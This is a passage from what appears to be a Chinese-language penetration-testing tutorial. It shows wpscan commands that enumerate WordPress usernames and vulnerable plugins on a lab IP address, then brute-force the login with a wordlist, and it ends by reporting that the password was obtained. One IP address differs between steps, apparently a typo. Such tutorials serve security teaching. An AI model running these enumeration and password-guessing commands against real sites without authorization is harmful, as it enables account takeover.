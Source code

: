 3. 现在，让我们通过执行下列命令枚举用户名列表：

   `wpscan –u 192.186.56.102 –e u vp`

   页面会像下面这样：

   ![img](/blog/img/img/3-4-5.jpg)

4. 最后，我们通过使用`–wordlist <文件路径>`选项来提供单词列表：

   `wpscan –u 192.168.56.102 -e u --wordlist /root/wordlist.txt`

   页面会像下面这样：

   ![img](/blog/img/img/3-4-6.jpg)

5. 这就结束了。我们已经成功获取了 WordPress 的密码。